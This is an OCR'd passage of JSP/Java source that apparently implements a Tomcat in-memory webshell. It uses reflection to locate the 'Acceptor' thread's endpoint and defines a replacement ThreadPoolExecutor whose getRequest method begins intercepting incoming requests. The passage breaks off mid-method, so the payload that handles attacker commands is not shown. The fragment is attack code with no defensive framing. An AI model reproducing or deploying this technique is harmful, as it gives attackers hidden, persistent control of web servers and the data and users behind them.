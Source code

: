 ```jsp
            try {
                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException | IllegalAccessException e) {
            }
            clazz = clazz.getSuperclass();
        }
        return null;
    }


    public Object getStandardService() {
        Thread[] threads = (Thread[]) this.getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            if ((thread.getName().contains("Acceptor"))) {
                Object target = this.getField(thread, "target");
                Object nioEndPoint = null;
                try {
                    nioEndPoint = getField(target, "endpoint");
                } catch (Exception e) {
                }
                if (nioEndPoint == null) {
                    try {
                        nioEndPoint = getField(target, "this$0");
                        if (nioEndPoint == null)
                            continue;
                        return nioEndPoint;
                    } catch (Exception e) {
                    }
                } else {
                    return nioEndPoint;
                }
            }
        }
        return new Object();
    }

    public class threadexcutor extends ThreadPoolExecutor {

        public threadexcutor(int corePoolSize, int maximumPoolSize, long keepAliveTime, TimeUnit unit, BlockingQueue<Runnable> workQueue, ThreadFactory threadFactory, RejectedExecutionHandler handler) {
            super(corePoolSize, maximumPoolSize, keepAliveTime, unit, workQueue, threadFactory, handler);
        }

        public String getRequest() {
            try {
                Thread[] threads = (Thread[]) ((Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads"));

                for (Thread thread : threads) {
                    if (thread != null) {
                        String threadName = thread.getName();
                        if (threadName.contains("Acceptor")) {
                            Object target = getField(thread, "target");
                            if (target instanceof Runnable) {
                                try {
```